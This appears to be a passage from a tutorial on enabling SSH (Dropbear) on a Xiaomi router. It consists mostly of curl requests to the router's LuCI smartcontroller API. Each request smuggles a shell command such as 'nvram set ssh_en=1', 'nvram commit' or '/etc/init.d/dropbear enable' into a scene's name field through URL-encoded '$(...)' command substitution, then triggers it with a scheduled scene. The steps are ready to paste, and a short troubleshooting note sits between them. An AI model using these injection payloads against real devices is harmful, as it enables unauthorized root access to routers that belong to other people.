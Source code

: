 Yes, we've done the first step, unlock Dropbear, and move on.

# Step 3: Use NVRAM to activate ssh_en CI

Let's then request, submit the nvram set ssh_en=1 command.

> curl -X POST "http://`<HOST>`/cgi-bin/luci/;stok=`<TOKEN>`/api/xqsmarthome/request_smartcontroller" -d "payload=%7B%22command%22%3A%22scene_setting%22%2C%22name%22%3A%22'%24(nvram%20set%20ssh_en%3D1)'%22%2C%22action_list%22%3A%5B%7B%22thirdParty%22%3A%22xmrouter%22%2C%22delay%22%3A17%2C%22type%22%3A%22wan_block%22%2C%22payload%22%3A%7B%22command%22%3A%22wan_block%22%2C%22mac%22%3A%2200%3A00%3A00%3A00%3A00%3A00%22%7D%7D%5D%2C%22launch%22%3A%7B%22timer%22%3A%7B%22time%22%3A%223%3A2%22%2C%22repeat%22%3A%220%22%2C%22enabled%22%3Atrue%7D%7D%7D"

Execute the command.

> curl -X POST "http://`<HOST>`/cgi-bin/luci/;stok=`<TOKEN>`/api/xqsmarthome/request_smartcontroller" -d "payload=%7B%22command%22%3A%22scene_start_by_crontab%22%2C%22time%22%3A%223%3A2%22%2C%22week%22%3A0%7D"

Then, commit the NVRAM modifications.

> curl -X POST "http://`<HOST>`/cgi-bin/luci/;stok=`<TOKEN>`/api/xqsmarthome/request_smartcontroller" -d "payload=%7B%22command%22%3A%22scene_setting%22%2C%22name%22%3A%22'%24(nvram%20commit)'%22%2C%22action_list%22%3A%5B%7B%22thirdParty%22%3A%22xmrouter%22%2C%22delay%22%3A17%2C%22type%22%3A%22wan_block%22%2C%22payload%22%3A%7B%22command%22%3A%22wan_block%22%2C%22mac%22%3A%2200%3A00%3A00%3A00%3A00%3A00%22%7D%7D%5D%2C%22launch%22%3A%7B%22timer%22%3A%7B%22time%22%3A%223%3A3%22%2C%22repeat%22%3A%220%22%2C%22enabled%22%3Atrue%7D%7D%7D"

Execute the command.

> curl -X POST "http://`<HOST>`/cgi-bin/luci/;stok=`<TOKEN>`/api/xqsmarthome/request_smartcontroller" -d "payload=%7B%22command%22%3A%22scene_start_by_crontab%22%2C%22time%22%3A%223%3A3%22%2C%22week%22%3A0%7D"

Good. At this time, we look at http://`<HOST>`/cgi-bin/luci/; stok=`<TOKEN>`/api/xqsystem/fac_info, "ssh" should have become true. It's almost time to start the dropbear service!

### (?) Troubleshooting
SSH config item doesn't change to true?  
Please confirm that you have done the first step correctly. Activating the SmartController feature is necessary.  
If that doesn't work, then the vulnerability may not apply to your router or router ROM version. Try replacing the old firmware or replacing the router.  


# Step 4: Launch the dropbear service
Submit the dropbear enable command.

> curl -X POST "http://`<HOST>`/cgi-bin/luci/;stok=`<TOKEN>`/api/xqsmarthome/request_smartcontroller" -d "payload=%7B%22command%22%3A%22scene_setting%22%2C%22name%22%3A%22'%24(%2Fetc%2Finit.d%2Fdropbear%20enable)'%22%2C%22action_list%22%3A%5B%7B%22thirdParty%22%3A%22xmrouter%22%2C%22delay%22%3A17%2C%22type%22%3A%22wan_block%22%2C%22payload%22%3A%7B%22command%22%3A%22wan_block%22%2C%22mac%22%3A%2200%3A00%3A00%3A00%3A00%3A00%22%7D%7D%5D%2C%22launch%22%3A%7B%22timer%22%3A%7B%22time%22%3A%223%3A4%22%2C%22repeat%22%3A%220%22%2C%22enabled%22%3Atrue%7D%7D%7D"
